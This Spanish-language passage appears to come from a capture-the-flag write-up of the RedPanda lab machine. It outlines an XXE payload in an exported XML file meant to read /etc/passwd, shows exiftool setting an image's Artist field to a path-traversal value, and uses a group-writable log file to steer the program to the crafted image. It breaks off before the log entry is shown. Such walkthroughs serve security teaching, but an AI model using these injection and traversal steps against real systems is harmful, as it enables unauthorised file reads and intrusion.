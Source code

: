 Comenzaré con el archivo descargado export.xmlde /export.xml, lo guardaré como 0xdf_creds.xml. Agregaré una carga útil XXE:

![Captura de pantalla de la web](assets/images/Redpandan/imagen_15.png)

Esto define una entidad fooque es el contenido de un archivo. Cuando el programa procesa esto, el <root>campo debe obtener el contenido de /etc/passwd, y luego se vuelve a escribir en el archivo.

## [](#header-2)Imagen

Descargaré una de las imágenes del sitio y la llamaré `0xdf.jpg`. Actualizaré los metadatos usando `exiftool`para que encuentre la ruta que busca el programa `0xdf_creds.xml`y no una de las deseadas:

```
jorge@hacky$ cp florida.jpg 0xdf.jpg 
jorge@hacky$ exiftool -Artist="../tmp/0xdf" 0xdf.jpg 
Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - 0xdf.jpg
    1 image files updated
jorge@hacky$ exiftool 0xdf.jpg | grep Artist
Artist : ../tmp/0xdf
```

## [](#header-2)Registro malicioso

Para inyectar en los registros, podría descubrir cómo hacer solicitudes que se registren y luego modificar mi agente de usuario para `||`dar control sobre el campo uri, pero eso no es necesario, ya que el archivo de registro puede escribirse mediante el grupo de registros:

```
woodenk@redpanda:/opt/panda_search$ ls -l redpanda.log 
-rw-rw-r-- 1 root logs 1 Nov 22 11:48 redpanda.log
```

Escribiré un registro que apunte a mi archivo de imagen:
